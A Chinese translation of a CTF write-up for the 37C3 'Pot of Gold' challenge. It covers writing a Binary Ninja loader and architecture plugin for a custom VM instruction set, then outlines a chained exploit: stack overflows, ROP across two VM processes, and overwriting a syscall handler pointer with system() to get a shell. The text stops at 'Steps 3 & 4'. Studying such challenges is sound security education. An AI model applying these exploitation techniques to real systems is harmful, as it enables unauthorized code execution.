# [翻译]【Ninja 逆向】使用 Ninja IL 逆向自定义 ISA：破解大赛 37C3“Pot of Gold” - 先知社区

\[翻译\]【Ninja 逆向】使用 Ninja IL 逆向自定义 ISA：破解大赛 37C3“Pot of Gold”

- - -

翻译原文链接：[https://www.synacktiv.com/en/publications/leveraging-binary-ninja-il-to-reverse-a-custom-isa-cracking-the-pot-of-gold-37c3](https://www.synacktiv.com/en/publications/leveraging-binary-ninja-il-to-reverse-a-custom-isa-cracking-the-pot-of-gold-37c3)

文章翻译总结：文章详细介绍了如何使用 Binary Ninja IL 来分析二进制文件，包括识别和利用虚拟机的操作码仿真处理函数。文章还介绍了如何编写自定义 ISA 的反汇编器和反编译器，以及如何利用这些工具来更好地理解代码的流程和功能，展示了如何利用自定义 ISA 的漏洞来获取代码执行权限，并最终检索到 flag 的过程。

文章相关标签：#Reverse Engineering、#Custom ISA、#Binary Ninja IL、#CTF Challenge、#Opcode Emulation、#Vulnerability Exploitation

这篇文章深入研究了如何通过 Binary Ninja 中间语言（IL）对 Pot of Gold CTF 挑战（37C3 CTF）的定制指令集架构（ISA）进行逆向工程，以实现对挑战代码的反编译。文章接着详细阐述了利用过程：首先如何在模拟器中实现代码执行，随后如何转移到第二个进程，并最终如何借助操作码模拟功能来获取挑战的标志。

“Pot Of Gold”是一个逆向工程和漏洞利用挑战，由 blasty 设计，并在 37C3 Potluck CTF 中被两支队伍成功解答。

## 一、关卡引入

在查看提供的文件之前，让我们先连接到服务器：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301234350-7fd772a4-d7e2-1.png)

因此，挑战的第一部分是获取访问 shell kitchen 的密码

方便的是，提供了一个 `Dockerfile` 来复现服务器环境，并且在新的 TCP 连接上执行了以下的 shell 脚本 `run.sh`。

```plain
#!/bin/sh

(/chall /gordon.bin /tmp/x 1 >/dev/null 2>/dev/null) &
sleep 1
/chall /kitchen.bin /tmp/x 0
```

`chall`文件是一个标准的、去除了符号信息的 x86-64 ELF 可执行文件，而另外两个文件是特殊格式的二进制数据块。这些特殊二进制文件以特定的标识 "`UNICORN`" 开头（*这与 Unicorn Engine 模拟器无关*），并且 `kitchen.bin`文件包含了欢迎信息，因此它们很可能没有经过加密处理。在这里，“blob”指的是不遵循常见文件格式或结构的二进制数据块。

## 二、逆向二进制

尽管进行了剥离，挑战二进制文件仍然是可读的。它实现了一个自定义架构的模拟器，由于有一个大的 switch-case 语句，操作码模拟处理函数很快就被识别出来：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301234445-a10428e6-d7e2-1.png)

为了简化表述，在本文的其余部分将这个模拟器称为虚拟机（VM）。

命令行参数`/tmp/`x 被用来在主进程`gordon.bin` 和从应用程序 `kitchen.bin` 之间创建一个通信通道（`argv[3]` 用于识别主进程）。因此，两个名为 `FIFO` 的命名管道通过两个进程使用 `mknod` 命令创建：

-   `/tmp/x_master`
-   `/tmp/x_slave`

然后，`argv[1]` 中指定的二进制数据块被解析并加载：

```plain
// From reverse engineering of the parsing loop
struct unicorn_blob_file {
    char magic[8]; // const "UNICORN"
    uint16_t nb_segments;
    struct segment {
        uint16_t virtual_base;
        uint16_t size;
        uint16_t protection; // bitfield 1 - read ; 2 - write ; 4 - exec
    } segments[ANYSIZE_ARRAY]; // array of size nb_segments
    char data[ANYSIZE_ARRAY]; // first segment data (array of size segments[0].size)
};
```

只有第一个段包含数据，其余的段都被设置为零。

> **注意**：两个文件都只包含 2 个段，第一个是实际的 blob 代码和数据。第二个段用于虚拟机堆栈。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301234459-a8fbfda8-d7e2-1.png)

最后，在循环中执行虚拟机操作码处理程序：

```plain
// inside main function
  do
  {
    if ( exec_one_instruction(vm) )
      exit(1);
  }
  while ( !vm->stopped );
```

## 三、逆向 ISA 操作码

可以使用初始化函数和`exec_one_instruction` 函数来逆向虚拟机的管理结构：

```plain
struct vm {
    uint64_t regs[8]; // General Purpose Register
    uint64_t sp;
    uint64_t lr;
    uint64_t pc;
    uint64_t fl; // flags register
    void * mem;  // Memory mapping linked list
    void (*handle_syscall)(struct vm*, int syscall_id);
    bool stopped;
    bool is_master;
};
```

现在代码看起来更易读，我们可以理解基本的操作码：

```plain
int exec_one_instruction(vm * vm)
{
    if ( (get_segment_prot(vm, vm->pc) & PROT_EXEC) == 0 )
        exit(1);
    // Read instruction
    read_vm_memory(vm, vm->pc, &opcode, 1);
    read_vm_memory(vm, vm->pc + 1, &arg1, 1);
    read_vm_memory(vm, vm->pc + 2, &arg3, 1);
    read_vm_memory(vm, vm->pc + 3, &arg2, 1);
    arg23 = _byteswap_ushort((arg3 << 8) | arg2);
    // Parse and execute instruction
    switch ( opcode )
    {
        case 0:
            // NOP
            break;
        /* ... */
        case 4:
            // ALU ops
            /* ... */
            switch ( arg1 >> 4 )
            {
                case 0:
                    vm->regs[arg3] = vm->regs[arg2] + operand;
                    break;
                case 1:
                    vm->regs[arg3] = vm->regs[arg2] - operand;
                    break;
                case 2:
                    vm->regs[arg3] =vm->regs[arg2] * operand;
                    break;
            /* ... */
            }
            break;
        case 5:
            // Syscall
            vm->handle_syscall(vm, arg1);
            break;
        /* ... */
        case 8:
            // Push
            vm->sp -= 8;
            write_vm_memory(vm, vm->sp, &vm->regs[arg1], 8);
            break;
        case 9:
            // Pop
            read_vm_memory(vm, vm->sp, &vm->regs[arg1], 8);
            vm->sp += 8;
            break;
        /* ... */
        case 0xC:
            // Branch to link register (ret)
            vm->pc = vm->lr;
            return 0;
    }
    vm->pc += 4;
}
```

在对虚拟机操作码有了更好的理解之后，可以逆向 syscall 函数。Syscalls 被用来提供虚拟机与用户交互的方式（1/2），并且也与另一个虚拟机进程交互（3/4）。

| **Syscall ID** | **Description** |
| --- | --- |
| 0   | Stop the VM |
| 1   | Output a character (*regs\[0\]*) |
| 2   | Read a character (*regs\[0\]*) |
| 3   | Send message to FIFO (ptr: *regs\[0\]*, size: *regs\[1\]*) |
| 4   | Receive message from FIFO (ptr: *regs\[0\]*, size: *regs\[1\]*) |
| 5   | Pseudo random generator (*regs\[0\]*) |
| 7   | Get uptime (`system("uptime > /tmp/u")` to ptr: *regs\[0\]*) |

一个细心的读者可能已经注意到指令解析器并非没有错误（寄存器索引未经验证），但在这个阶段，还不能控制指令。

## 四、为自定义 ISA 编写反编译器

### 4.1 反汇编器

下一步将是编写一个快速而简单的反汇编器来分析两个二进制文件，并找到访问 *shell* 的密码。

为了更好地可视化代码流程（**图形视图**），在 Binary Ninja 中实现了指令集架构（ISA）。

Binary Ninja 的架构`plugin` API 在一系列[博客](https://binary.ninja/2020/01/08/guide-to-architecture-plugins-part1.html)文章中都有很好的文档记录。

由于编写架构插件需要在每次代码更改时关闭和重新打开 Binary Ninja，因此从编写加载器开始可以使这个过程变得更加容易（每次都无需选择架构和加载文件偏移量）。

加载器被称为 `BinaryView`，让我们来实现加载器：

```plain
from struct import unpack
from binaryninja.binaryview import BinaryView
from binaryninja.enums import SegmentFlag

class POTLUCKView(BinaryView):
    name = 'POTLUCKView'
    long_name = 'POTLUCKView ROM'

    def __init__(self, data):
        BinaryView.__init__(self, parent_view = data, file_metadata = data.file)
        # self.platform = Architecture['POTLUCK'].standalone_platform
        self.data = data

    @classmethod
    def is_valid_for_data(self, data):
        header = data.read(0, 7)
        return header == b'UNICORN'

    def perform_get_address_size(self):
        return 8

    def init(self):
        # Parse struct unicorn_blob_file
        segment_count = unpack("<H", self.data.read(0x8, 2))[0]
        print(f"segment count = {segment_count}")
        # Only the first segment is loaded from file
        base = unpack("<H", self.data.read(0xA, 2))[0]
        size = unpack("<H", self.data.read(0xC, 2))[0]
        prot = unpack("<H", self.data.read(0xE, 2))[0]
        # Load code + data from file offset (0xA + sizeof(struct segment) * segment_count) at base: 0x0
        self.add_auto_segment(base, size, 0xA + 6 * segment_count, size, SegmentFlag.SegmentReadable|SegmentFlag.SegmentExecutable)
        # No need to load the zeroed stack segment (read full loader code if interested)
        return True

    def perform_is_executable(self):
        return True

    def perform_get_entry_point(self):
        return 0

POTLUCKView.register()
```

文件格式被自动识别并加载：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301234600-cd71c672-d7e2-1.png)

现在应该添加架构，以向 Binary Ninja 提供指令集架构（ISA）信息。一个架构必须包含三个回调函数：

```plain
get_instruction_text(self, data: bytes, addr: int) -> Optional[Tuple[List[InstructionTextToken], int]]
```

-   指令解码为文本

```plain
get_instruction_info(self, data:bytes, addr:int) -> Optional[InstructionInfo]
```

-   指令的元数据，用于控制流分析

```plain
get_instruction_low_level_il(self, data: bytes, addr: int, il: LowLevelILFunction) -> Optional[int]
```

-   指令转换为 Binary Ninja 中间语言（IL），用于反编译

架构还提供了地址大小、寄存器（包括堆栈和链接寄存器），以帮助进行分析。

如果我们只实现了 `push/pop` 指令，例如：

```plain
from typing import Callable, List, Type, Optional, Dict, Tuple, NewType

from binaryninja.architecture import Architecture, InstructionInfo, RegisterInfo
from binaryninja.lowlevelil import LowLevelILFunction
from binaryninja.function import InstructionTextToken
from binaryninja.enums import InstructionTextTokenType

class POTLUCK(Architecture):
    name = "POTLUCK"
    address_size = 4
    default_int_size = 4
    instr_alignment = 4
    max_instr_length = 4
    regs = {
        'R0': RegisterInfo('R0', 4),
        'R1': RegisterInfo('R1', 4),
        'R2': RegisterInfo('R2', 4),
        'R3': RegisterInfo('R3', 4),
        'R4': RegisterInfo('R4', 4),
        'R5': RegisterInfo('R5', 4),
        'R6': RegisterInfo('R6', 4),
        'R7': RegisterInfo('R7', 4),
        'SP': RegisterInfo('SP', 4),
        'LR': RegisterInfo('LR', 4),
    }
    stack_pointer = "SP"
    link_reg = "LR"

    def get_instruction_info(self, data:bytes, addr:int) -> Optional[InstructionInfo]:
        return None

    def get_instruction_text(self, data: bytes, addr: int) -> Optional[Tuple[List[InstructionTextToken], int]]:
        opcode = data[0]
        arg1 = data[1]
        ops = []
        if opcode == 8:
            ops.append(InstructionTextToken(InstructionTextTokenType.TextToken, "push "))
            ops.append(InstructionTextToken(InstructionTextTokenType.RegisterToken, f'R{arg1}'))
        elif opcode == 9:
            ops.append(InstructionTextToken(InstructionTextTokenType.TextToken, "pop "))
            ops.append(InstructionTextToken(InstructionTextTokenType.RegisterToken, f'R{arg1}'))
        return ops, 4 # len of instruction

    def get_instruction_low_level_il(self, data: bytes, addr: int, il: LowLevelILFunction) -> Optional[int]:
        return None

POTLUCK.register()
```

取消注释 `# self.platform = Architecture['POTLUCK'].standalone_platform` 这一行在`BinaryView`中，以自动加载正确的架构。

> 注意：在`get_instruction_text` 和 `get_instruction_low_level_il`函数中永远不要返回 0，因为返回值是解析的字节数，这将会导致无限循环。应该返回 `None`。

这里没有描述实现其他 11 条指令（以及 ALU 的 9 个子操作码）。

一个重要的缺失部分是使用 `get_instruction_info` 进行控制流分析，没有它，Binary Ninja 无法找到函数边界：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301234621-da3a905a-d7e2-1.png)

在开发过程中，为了获得线性反汇编，实现一个基本`get_instruction_info` 存根 stub，接受任何字节序列。

```plain
def get_instruction_info(self, data:bytes, addr:int) -> Optional[InstructionInfo]:
        info = InstructionInfo()
        info.length = 4
        return info
```

`get_instruction_info`提供有关分支、调用、返回和系统调用的信息。

根据文档：

| **BranchType** | **Description** |
| --- | --- |
| UnconditionalBranch | Branch will always be taken |
| FalseBranch | False branch condition |
| TrueBranch | True branch condition |
| CallDestination | Branch is a call instruction (Branch with Link) |
| FunctionReturn | Branch returns from a function |
| SystemCall | System call instruction |
| IndirectBranch | Branch destination is a memory address or register |
| UnresolvedBranch | Branch destination is an unknown address |

在自定义的指令集架构中，只有`syscall`系统调用（指令编号 5）、`branch`条件分支（指令编号 1）、`call`函数调用（指令编号 10）和`ret`返回指令会影响控制流程。

```plain
def get_instruction_info(self, data:bytes, addr:int) -> Optional[InstructionInfo]:
        if not is_valid_instruction(data):
            return None
        opcode = data[0]
        arg1 = data[1]
        arg23 = get_arg23(data[2:4])
        result = InstructionInfo()
        result.length = 4
        if opcode == 5:     # SYSCALL
            result.add_branch(BranchType.SystemCall, arg1)
        elif opcode == 1:   # BRANCH
            if arg1 == 0:
                result.add_branch(BranchType.UnconditionalBranch, addr + arg23) # b +imm
            else:
                result.add_branch(BranchType.TrueBranch, addr + arg23) # b +imm if flag
                result.add_branch(BranchType.FalseBranch, addr + 4)    # continue if not flag
        elif opcode == 10:  # CALL
            if arg1 == 1:
                result.add_branch(BranchType.IndirectBranch) # call register
            else:
                result.add_branch(BranchType.CallDestination, addr + arg23) # call +imm
        elif opcode == 12:  # RET
            result.add_branch(BranchType.FunctionReturn)
        return result
```

现在反汇编结果可读，可以开始对 gordon 和 kitchen 二进制文件进行逆向工程了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301234635-e2928050-d7e2-1.png)

### 4.2 反编译器

代码已经可读，但使用 Binary Ninja 的中间语言（IL）可以做得更好。

确实，通过中间语言，架构插件可以使用 Binary Ninja 的低级指令（如`LLIL_LOAD`、`LLIL_ADD`、`LLIL_SET_REG`等）来描述自定义 ISA 指令，Binary Ninja 将分析这些指令以生成清晰的伪 C 语言的反编译输出。

例如，经过自动执行的几个优化过程后，以下函数的伪代码将更容易阅读。

ASM:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301234643-e718c634-d7e2-1.png)

伪代码 C:

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301234650-eb8dea8c-d7e2-1.png)

第三个回调用于返回 IL 操作：`get_instruction_low_level_il`。

其中一个复杂的部分是处理条件分支，这在 Binary Ninja 的第二篇博客文章中有描述。此外，正确处理比较和分支操作码上的标志寄存器可能很耗时，除非有兴趣学习，否则可以忽略它。

为了表示一个 ISA 指令，可以附加多个 Binary Ninja 低级 IL（LLIL）指令。实际上，一个 LLIL 指令是一个表达式树结构，包含作为操作数的子 LLIL 指令。

```plain
def get_instruction_low_level_il(self, data: bytes, addr: int, il: LowLevelILFunction) -> Optional[int]:
    # ...
    # Represent: xor rX, 0xX
    dst = src = RegisterName(get_register_name(arg[0]))
    operand = il.const(4, arg[1])
    ## value of rX
    op = il.reg(4, src)
    # XOR (value of rX, const)
    op = il.xor_expr(4, op, operand)
    # set value of rX (XOR (value of rX, const))
    op = il.set_reg(4, dst, op)
    # Append it to the il `LowLevelILFunction`
    il.append(op)
    return 4 # len of instruction
```

根据文档和可用的 Python 插件示例，实现大约 20 条指令是非常快速的。

为了在伪 C 视图中美观地显示系统调用，注册了一个虚拟寄存器`ID`和一个自定义的系统调用约定。确实，默认情况下，`system_call`系统调用 IL 不接收任何参数，因此反编译视图将只显示`syscall()`;。

```plain
# Lift syscall in get_instruction_low_level_il
il.append(il.set_reg(4, RegisterName('ID'), il.const(4, arg1)))
i = il.system_call()

# Syscall custom calling convention
class CustomSyscall(CallingConvention):
    int_arg_regs = ['ID', 'R0', 'R1']
    int_return_reg = 'R0'
    eligible_for_heuristics = False # force display of int_arg_regs

# Register custom calling convention
CustomSyscall(arch=Architecture['POTLUCK'], name='CustomSyscall')
Architecture['POTLUCK'].register_calling_convention(cc_sys)
self.platform.system_call_convention = cc_sys
```

完整的插件源代码可以在[这里找到](https://github.com/masthoon/BN_Loaders/blob/main/potluck_ctf.py)（代码是为了 CTF 比赛而匆忙编写的）。

> **注意**：尽管 ISA 使用 64 位寄存器，但使用 32 位`address_size`地址大小的反编译代码看起来更好。

现在，可以轻松地应对这个挑战，或者说看起来是这样。

## 五、GORDON 虚拟机

主函数从 Kitchen FIFO 接收 256 字节的数据，并根据消息的第一个字调用不同的命令函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301234700-f154d048-d7e2-1.png)

-   `0xf01dc0d`e -> 向 Kitchen 发送随机句子
-   `0xbadf0001` -> 向 Kitchen 发送硬编码的“Friendship is not for sale, dummy!”
-   `0xc0cac01a` -> 提供空闲的的**堆栈缓冲区溢出**
-   `0xc01db007` -> 向 Kitchen 发送系统运行时间

确实，`0xc0cac01a`的处理程序如下，且`memcpy`的大小超过了`var_84`缓冲区预留的大小：

```plain
// Low level IL representation
0x00000380  int32_t command_c0ca(int32_t* arg1 @ R0)

   0x00000380  push(LR)
   0x00000384  SP = SP - 0x80
   0x00000388  R1 = R0
   0x0000038c  R0 = SP {var_84}
   0x00000390  R2 = 0x100
   0x00000394  call(memcpy) // memcpy(&var_84, arg1, 0x100);
   0x00000398  SP = SP + 0x80
   0x0000039c  LR = pop
   0x000003a0  <return> jump(LR)
```

发现一个漏洞是件好事，但目前这个函数是不可达的……

## 六、KITCHEN 虚拟机

The *Kitchen* strings are encrypted (except the banner) with the following algorithm:

主函数生成一个秘密挑战并发送给用户。然后，它接收用户输入，并将其与秘密挑战异或 (*1ac0cac05eea150d1df0af5c11ba5eba*) 的结果进行比较。

> **注意**：`xor_with_const`在反编译器部分作为一个[示例展示](https://www.synacktiv.com/en/publications/leveraging-binary-ninja-il-to-reverse-a-custom-isa-cracking-the-pot-of-gold-37c3#decompiler)。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240301234713-f8bcb1ac-d7e2-1.png)

Kitchen 中的字符串（横幅除外）使用以下算法进行加密：

```plain
def decrypt(addr, size):
    o = b''
    for i, e in enumerate(bv.read(addr, size)):
        key = struct.pack('<I', (0xf00dcafe ^ ((addr + i) * 0x10001)))
        o += bytes([e ^ key[(addr + i) % 4]])
    return o

# >>> decrypt(0x1239, 38)
# b"Welcome to Shell's Kitchen, stranger!\n"
```

*kitchen* Shell 是一个带有 4 个选项的菜单：

-   1 -> 向 Gordon 发送`0xf01dc0de`并打印随机短语
-   2 -> 在一个大小为 0x44 的栈变量中读取`0xff`字节（在`0xa`或`0xd`处停止）；然后向 Gordon 发送 0xbadf0001 并打印返回的字符串（Friendship）
-   3 -> 向 Gordon 发送`0xc01db007`并打印运行时间
-   4 -> 退出

整洁！又一个堆栈缓冲区溢出，这次可以通过用户输入达到。请注意，溢出发生在自定义 VM 内部，允许控制模拟代码中的指令指针。

## 七、漏洞及利用步骤

在发送正确的挑战后，通过命令 2 发送一个 0x44 字节的缓冲区将触发堆栈缓冲区溢出，并破坏 VM 中的保存的 LR（链接寄存器）。

[](https://githubwiki.oss-cn-shanghai.aliyuncs.com/img/typroa/kitchen_overflow.png)

在*Kitchen*中，由于 VM 内存保护，堆栈是可读写的，而代码是只读执行的。但细心的读者可能已经注意到，Gordon VM 的堆栈是可读可写可执行的。因此，转向 Gordon 进程以伪造损坏的指令并到达 ISA 操作码解析中的漏洞（越界寄存器索引）是很有趣的。

由于两个 VM 中都没有堆栈 Cookie 和地址空间布局随机化（ASLR），利用部分是直接的。

利用方法是：

1.  触发 Kitchen 中的命令 2 堆栈缓冲区溢出
2.  在 Kitchen 中进行 ROP（返回导向编程）以向 Gordon 发送易受攻击的`0xc0cac01a`命令
3.  触发 Gordon 中的`0xc0cac01a`命令堆栈缓冲区溢出
4.  在 Gordon 中执行 Ret2shellcode 以获得 shell
    1.  构造畸形指令，直接在`struct vm`中写入寄存器以外的区域，覆盖`handle_syscall`函数指针
    2.  用系统地址替换`handle_syscall`函数指针
    3.  执行`syscall`指令以运行任意 shell 命令
    4.  读取 flag
    5.  使用 FIFO 将 flag 发送回 Kitchen
5.  在 Kitchen 中继续使用 ROP 接收 flag 并将其打印到标准输出。

### 步骤 1 & 2

幸运的是，Kitchen 中有一个以下的小工具（gadget），它允许我们在跳转到用于向 Gordon 发送有效载荷的 syscall 4 之前控制所有用作参数的寄存器（R0、R1、R2）和链接寄存器。

```plain
0x0000164  pop LR
0x0000168  pop R5
0x000016c  pop R4
0x0000170  pop R2
0x0000174  pop R1
0x0000178  pop R0
0x000017c  ret
```

在 VM 中，堆栈指针没有进行随机化，因此输入缓冲区的地址在利用代码中是硬编码的。

### 步骤 3 & 4

